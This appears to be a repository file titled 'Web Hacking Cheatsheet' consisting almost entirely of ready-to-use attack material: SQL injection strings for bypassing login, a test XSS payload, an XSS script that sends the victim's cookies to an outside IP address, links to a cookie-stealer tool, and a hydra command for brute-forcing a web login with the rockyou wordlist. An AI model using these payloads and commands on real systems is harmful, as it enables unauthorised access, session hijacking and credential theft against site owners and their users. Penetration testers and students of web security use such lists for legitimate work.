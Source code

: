 # Web Hacking Cheatsheet

## Bypass Authentication with SQL Injection
  `' or 1=1 --`

  `a' or 1=1 --`

  `" or 1=1 --`
  
  `a" or 1=1 --`	      
  
  `' or 1=1 #`

  `" or 1=1 #`

  `or 1=1 --`

  `' or 'x'='x`

  `" or "x"="x`

  `') or ('x'='x`	      
  
  `") or ("x"="x`

## Test for XSS
`Hello!<script>alert("Welcome");</script>`

## XSS Cookie Hijacking
_Start XSS-cookie-stealer.py ***https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py_

_**https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md_

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.30.10.210:8888/?"+document.cookie;
</script>
```

## Brute Force Web Login
`hydra -L /home/n0m4d1k/usernames -P /usr/share/wordlists/rockyou.txt -t 16 172.30.73.80 http-post-form "/login.php:username=^USER^&password=^PASS^&action=Login:Incorrect username or password"`
